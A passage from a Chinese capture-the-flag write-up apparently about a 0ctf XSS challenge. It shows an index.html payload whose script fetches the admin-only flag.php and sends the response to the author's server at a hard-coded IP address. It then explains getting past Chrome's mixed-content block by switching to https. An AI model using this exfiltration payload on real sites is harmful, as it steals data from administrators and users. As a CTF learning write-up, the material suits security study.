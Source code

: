 这种形式去引用一个https://ip/index.html的数据，而且它能对index.html的js进行解析执行！

接下来的思路就是，让admin触发xss，iframe加载一个页面，页面中的js执行，访问flag.php，然后再把数据打到我们的VPS中。

Index.html页面如下

```html
<html>
<head>
</head>
<script>


/**
 * Created by moxiaoxi on 2017/3/20.
 */
function getinfo(str) {
    var node=document.createElement("script");
    node.type="text/javascript";
    node.src="http://104.224.169.90:6789/"+escape(str);
    document.getElementsByTagName("HEAD")[0].appendChild(node);
}

var xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET","https://router.vip/flag.php",true);
xmlhttp.onreadystatechange=function()
{
    //if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        getinfo(xmlhttp.responseText);
    }
}
xmlhttp.send();


</script>
</html>
```

可以看到，服务器执行了js

![xss1](http://momomoxiaoxi.com/img/post/0ctf/xss1.png)

但，此时我们的VPS是收不到的数据的，因为发送请求被Chrome拦截下来了

```
Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/'. This request has been blocked; the content must be served over HTTPS.
```

https加载src一个http的页面，它会自动拦截掉。

所以，我们把前面的http改成https即可（注：这样会导致数据乱码，当时主要想测能不能弹数据）

此时可以在我们的VPS上看到数据：

